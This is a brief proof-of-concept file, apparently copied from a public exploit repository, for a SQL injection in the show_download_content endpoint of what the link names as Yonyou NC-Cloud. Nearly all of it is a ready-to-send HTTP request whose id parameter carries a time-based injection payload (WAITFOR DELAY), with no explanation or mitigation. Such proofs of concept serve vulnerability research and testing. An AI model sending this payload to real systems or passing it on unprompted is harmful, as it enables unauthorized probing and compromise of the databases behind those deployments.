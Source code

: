 # ncc_show_download_content_sqli

```
GET /ebvp/infopub/show_download_content;.js?id=1';WAITFOR+DELAY+'0:0:6'-- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: zh-CN
Connection: keep-alive
```

from: https://github.com/wy876/POC/blob/main/%E7%94%A8%E5%8F%8BOA/%E7%94%A8%E5%8F%8BNC-Cloud%E7%B3%BB%E7%BB%9Fshow_download_content%E6%8E%A5%E5%8F%A3%E5%AD%98%E5%9C%A8SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.md
